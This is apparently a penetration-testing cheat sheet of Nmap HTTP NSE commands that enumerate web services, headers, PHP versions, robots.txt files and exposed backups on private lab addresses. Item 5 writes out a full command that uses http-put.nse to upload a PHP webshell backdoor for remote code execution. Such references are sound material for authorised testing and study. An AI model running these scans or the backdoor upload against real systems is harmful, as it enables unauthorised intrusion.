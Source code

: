 # 📘 Nmap HTTP NSE Scripts

This document outlines a series of Nmap commands using various HTTP-related NSE (Nmap Scripting Engine) scripts. These scripts are designed to help in identifying details about HTTP services, vulnerabilities, and configurations on target systems.

⚠️ Be cautious when using scripts that could potentially alter the target system (e.g., `http-put.nse`).

---

### 1. `http-enum.nse` – Enumerates HTTP services or web applications 🔍  
This script attempts to discover common web applications or HTTP services running on a target.

```bash
nmap -v -Pn -sT -sV -p 80 --script=http-enum.nse 192.168.1.207
```

---

### 2. `http-headers.nse` – Retrieves HTTP headers 📬  
This script fetches the HTTP headers, which may reveal details about the web server or application.

```bash
nmap -v -Pn -sT -sV -p 80 --script=http-headers.nse 192.168.1.207
```

---

### 3. `http-php-version.nse` – Detects PHP version 🐘  
This script checks if the server is running PHP and attempts to determine the PHP version.

```bash
nmap -p 80 192.168.1.207 --script=http-php-version.nse
```

---

### 4. `http-*` – Run all HTTP-related NSE scripts 🧰  
This command runs all HTTP-related scripts available in Nmap, providing a comprehensive scan of the target.

```bash
nmap -v -sT -sV -A -O -p 80 --script=http-* 192.168.1.207
```

---

### 5. `http-put.nse` – Upload a PHP shell (⚠️ Use with caution) 💣  
This script tries to upload a PHP shell (e.g., `shell.php`) to the target server, which could result in potential remote code execution.

```bash
nmap -v -Pn -sT -sV -p 80 \
--script=http-put.nse \
--script-args="http-put.url='/test/php-backdoor.php',http-put.file='/usr/share/webshells/php/simple-backdoor.php'" \
192.168.1.233
```

---

### 6. `http-robots.txt.nse` – Checks for robots.txt 🤖  
This script attempts to find and analyze the `robots.txt` file, which might contain sensitive information (like directories or files that are not meant to be indexed).

```bash
nmap -v -Pn -sT -sV -p 80 --script=http-robots.txt.nse 192.168.1.207
```

---

### 7. `http-config-backup.nse` – Searches for exposed backups 🗄️  
This script looks for backup configurations (e.g., `.bak`) that may be exposed to the public and could reveal sensitive information.

```bash
nmap -v -Pn -sT -sV -p 80 --script=http-config-backup.nse 192.168.1.207
```

---

### 📌 Notes:

- `-v`: Increases verbosity  
- `-Pn`: Skips host discovery (useful if the target is behind a firewall)  
- `-sT`: Initiates a TCP connect scan (useful when SYN scan is blocked)  
- `-sV`: Attempts to identify service versions on open ports  
-  Be cautious with scripts like `http-put.nse` as they can make changes to the target system.
